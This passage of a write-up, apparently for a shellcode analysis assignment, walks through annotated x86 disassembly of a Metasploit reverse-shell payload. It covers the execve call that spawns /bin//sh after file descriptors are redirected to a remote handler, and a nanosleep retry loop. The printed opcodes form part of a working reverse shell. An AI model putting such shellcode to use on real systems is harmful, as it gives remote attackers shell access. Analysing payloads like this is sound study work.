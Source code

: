 ```nasm

                            ; 2nd argument of execve(): argv
                            ;   array of pointers to strings (command-line arguments)
0000007B  89E1              mov ecx,esp

                            ; call execve() syscall
0000007D  B00B              mov al,0xb
0000007F  CD80              int 0x80
```

As for the second assignment, once the shellcode correctly redirected `stdin`, `stdout`, and `stderr` to the file descriptor of the server socket (a `metasploit` handler to be specific), it uses `execve` to spawn the reverse shell.

In this case it uses the shell `/bin//sh`, as the string occupies only `8 bytes`, but we could also replace it with `/bin/bash`.

If the shellcode can't connect to the remote server, then it jumps to the address `00000082`, which is the start of a block of assembly instructions that call the syscall `nanosleep()` in order to sleep for `10` seconds:

```nasm
                            ; I don't know why the use of this instruction.
                            ; Once the shellcode spawns a shell, the code of the program
                            ; should be replace, so it seems useless
00000081  C3                ret

                            ; clear EBX and push 0x00000000 to the stack
00000082  31DB              xor ebx,ebx
00000084  53                push ebx  

                            ; push the DWORD 0x0000000a to the stack
00000085  6A0A              push byte +0xa

                            ; clear EAX and EDX
00000087  F7E3              mul ebx

                            ; 1st argument of nanosleep():
                            ;   pointer to a timespec structure
00000089  89E3              mov ebx,esp

                            ; call nanosleep()
0000008B  B0A2              mov al,0xa2
0000008D  CD80              int 0x80
```

The interesting fact about `nanosleep` is that it doesn't simply use a integer to determine how many seconds/nanoseconds to sleep, but it uses a `struct`.

According to the [Linux manual](https://man7.org/linux/man-pages/man2/nanosleep.2.html), it is structured as follows:

```cpp
struct timespec {
    time_t tv_sec;        /* seconds */
    long   tv_nsec;       /* nanoseconds */
};
```
